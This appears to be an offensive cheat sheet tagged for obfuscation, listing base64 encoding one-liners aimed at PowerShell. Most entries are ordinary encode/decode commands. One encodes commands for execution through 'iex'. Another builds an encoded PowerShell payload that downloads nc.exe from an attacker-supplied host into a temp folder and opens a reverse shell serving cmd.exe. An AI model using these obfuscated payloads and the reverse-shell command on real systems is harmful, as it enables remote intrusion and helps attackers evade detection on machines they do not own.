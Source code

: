 # base64

% obfuscation, base64

#plateform/linux #target/local #cat/UTILS 

## iconv - base64 encode file (for powershell) 
```bash
iconv -f ASCII -t UTF-16LE <file> | base64 -w 0
```

## iconv - base64 encode command (for powershell)
```bash
echo "<pwsh_cmd|iex(command)>" | iconv --to-code UTF-16LE | base64 -w 0
```

## python - base64 encode command (for powershell)
```bash
python -c 'import base64; print(base64.b64encode((r"""<powershell_command>""").encode("utf-16-le")).decode())'
```

## python - base64 encode nc revshell (for powershell)
```bash
python -c 'import base64; print(base64.b64encode((r"""(new-object net.webclient).downloadfile("http://<ip>/nc.exe", "c:\windows\temp\nc.exe"); c:\windows\temp\nc.exe -nv <ip> <port> -e c:\windows\system32\cmd.exe;""").encode("utf-16-le")).decode())'
```

## base64 - encode string 
```bash
echo '<string>' | base64 -w 0
```

## base64 - decode string 
```bash
echo '<string>' | base64 -d 
```


## base64 - encode file 
```bash
cat <path> | base64 -w 0
```

## base64 - decode file 
```bash
cat <path> | base64 -d 
```